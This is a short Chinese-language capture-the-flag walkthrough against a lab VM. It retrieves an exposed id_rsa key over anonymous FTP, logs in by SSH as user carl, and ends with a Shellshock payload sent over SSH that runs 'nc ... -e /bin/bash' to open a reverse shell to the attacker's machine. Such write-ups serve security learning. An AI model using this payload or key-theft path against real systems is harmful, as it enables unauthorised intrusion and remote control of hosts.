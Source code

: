 ## ftp 匿名登陆

```shell
ftp> ls -lah
drwxr-xr-x    2 0        114          4096 Apr 20  2021 .
drwxr-xr-x    2 0        114          4096 Apr 20  2021 ..
-rwxrwxrwx    1 0        0            1811 Apr 20  2021 id_rsa
```

将 `id_rsa` 这个文件下载到本地，将其中的数据进行 `Base64` 解码，并提取可视字符串，得到

```plaintext
carl@choc
```

## User - carl

```shell
┌─[randark@parrot]─[~]
└──╼ $ ssh carl@192.168.56.122 -i id_rsa


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################






        ███████╗ █████╗ ██╗██╗     ███████╗██████╗     ██╗      ██████╗ ██╗
        ██╔════╝██╔══██╗██║██║     ██╔════╝██╔══██╗    ██║     ██╔═══██╗██║
        █████╗  ███████║██║██║     █████╗  ██║  ██║    ██║     ██║   ██║██║
        ██╔══╝  ██╔══██║██║██║     ██╔══╝  ██║  ██║    ██║     ██║   ██║██║
        ██║     ██║  ██║██║███████╗███████╗██████╔╝    ███████╗╚██████╔╝███████╗
        ╚═╝     ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚═════╝     ╚══════╝ ╚═════╝ ╚══════╝



Connection to 192.168.56.122 closed.
```

看起来是成功登陆了，但是不知道为何直接拦截出去了

尝试借助 Bash shellshock 漏洞，以及 [bash - how can shellshock be exploited over SSH? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh)

参考直接执行反弹 shell

```shell
┌─[randark@parrot]─[~]
└──╼ $ ssh carl@192.168.56.122 -i id_rsa '() { :;}; nc 192.168.56.102 9999 -e /bin/bash'
```

